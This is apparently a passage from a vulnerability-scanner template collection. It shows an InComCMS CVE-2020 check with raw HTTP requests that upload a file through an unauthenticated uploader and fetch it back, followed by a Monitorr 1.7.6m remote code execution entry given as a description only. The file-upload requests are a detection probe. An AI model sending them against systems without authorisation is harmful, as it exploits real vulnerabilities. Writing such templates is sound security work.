 - severity - critical
- tags - cve,cve2020,incomcms,fileupload,intrusive

## Requests

### Step - 1

```
POST /incom/modules/uploader/showcase/script.php HTTP/1.1
Host: {{Hostname}}
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBEJZt0IK73M2mAbt

------WebKitFormBoundaryBEJZt0IK73M2mAbt
Content-Disposition: form-data; name="Filedata"; filename="{{randstr_1}}.png"
Content-Type: text/html

{{randstr_2}}
------WebKitFormBoundaryBEJZt0IK73M2mAbt--

```

### Step - 2

```
GET /upload/userfiles/image/{{randstr_1}}.png HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body_1
- words
  1. {"status":"1","name":"{{randstr_1}}.png"}

**Type - word**

- part - body_2
- words
  1. {{randstr_2}}

---

# Monitorr 1.7.6m - Unauthenticated Remote Code Execution

## Description

- Monitorr 1.7.6m is susceptible to a remote code execution vulnerability. Improper input validation and lack of authorization leads to arbitrary file uploads in the web application. An unauthorized attacker with web access to could upload and execute a specially crafted file, leading to remote code execution within the Monitorr.
- severity - critical
- tags - cve2020,monitorr,rce,oast,unauth,edb,cve,fileupload,intrusive
